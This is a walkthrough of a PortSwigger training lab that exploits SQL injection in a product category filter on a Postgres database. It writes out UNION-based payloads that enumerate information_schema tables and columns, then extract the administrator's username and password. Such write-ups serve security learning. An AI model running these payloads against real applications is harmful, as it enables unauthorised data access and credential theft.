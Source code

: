 # SQL injection attack, listing the database contents on non-Oracle databases

**Lab Url**: [https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)

![Lab Description](img/lab-description.png)

## Analysis

The initial step is to understand how the vulnerable application works and gather information about the target system. The application showcases a product catalog with a product name and description. The navbar contains a feature to filter out products by category.

We confirmed that the application is running a `Postgres` database.

![Database](img/determine-database-type-and-version.png)

Using `ORDER BY` clauses, it was determined that the Query returns **two** columns.

```bash
/filter?category=Accessories'+ORDER+BY+2+--
```

## Listing Tables

We can use the payload below to list all tables in the `information_schema`.

```bash
'+union+select+null,table_name+from+information_schema.tables+--
```

![All tables](img/schema-tables.png)

From the response, we can determine valuable table names that are likely to contain user information. In this case, this table is `users_zxcvbl`.

## Listing Columns

After finding a table name we can move forward and list all column names inside of that table.

```bash
'+union+select+null,column_name+from+information_schema.columns+where+table_name='users_zxcvbl'+--
```

![All Columns](img/column-names.png)

## Listing Username and Password

Now that we have determined the table and column name, we can move forward and craft a payload to extract the credentials of the `administrator` user.

```bash
'+union+select+null,username_wjxsgn+from+users_zxcvbl+--
```

![Usernames](img/usernames.png)

```bash
'+union+select+username_wjxsgn,password_iylvak+from+users_zxcvbl+--
```

![Credentials](img/username-password.png)

After retrieving the credentials of the `administrator` user log in to solve this lab.

![Lab Solved](img/lab-solved.png)
